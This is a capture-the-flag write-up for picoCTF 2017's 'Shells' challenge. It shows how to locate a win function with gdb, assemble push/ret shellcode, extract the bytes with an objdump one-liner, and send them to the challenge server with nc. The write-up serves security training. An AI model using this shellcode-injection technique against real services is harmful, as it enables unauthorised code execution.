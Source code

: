 # Shells

## Question
  > How much can a couple bytes do? Use shells! Source. Connect on shell2017.picoctf.com:63545.

  
## Solution
### 1. check win address
 First, check the address of win using gdb.
  >info address win
  
  "win" is at 0x8048540.

  
### 2. Make shellcode
  First, create push + ret code.
  
        .intel_syntax noprefix
        .globl _start
         _start:
         push	0x8048540
         ret
  
  -----------------------------------------------------------------------------------------

        objdump -M intel -d a.out | grep '^ ' | cut -f2 | perl -pe 's/(\w{2})\s+/\\x\1/g' 
  

Create shellcode using above.


 
  

  
### 3. get the flag
Put the completed shellcode and get the flag.

      python -c"print('\x68\x40\x85\x04\x08\xc3')" | nc shell2017.picoctf.com 63545

        
